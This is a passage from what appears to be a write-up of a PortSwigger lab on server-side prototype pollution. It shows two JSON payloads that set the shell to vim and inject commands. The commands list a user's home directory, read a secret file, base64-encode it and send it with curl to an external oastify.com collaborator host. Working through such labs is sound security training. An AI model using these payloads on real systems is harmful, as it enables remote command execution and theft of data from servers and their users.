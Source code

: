 Basically, `vim` can run terminal commands and what not, and this is done via `! <COMMAND>`.

```json
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos > file.txt; curl -X POST @file.txt tifhtpgg5onmoda4quc9lp6ii9o0cy0n.oastify.com\n"
}
```

The above works in triggering a DNS lookup, but it does not send the data. The solution uses `base64` and `@-` for stdin to send the data over.

The solution's payload is :

```json
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://jtg74fr6geycz3lu1knzwfh8tzzqnhe53.oastify.com\n"
}
```

This would cause the data to be sent over:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-26.png)

Submitting that solves the lab, and I suppose this lab forces us to use `vim` since Portswigger Academy covers it. 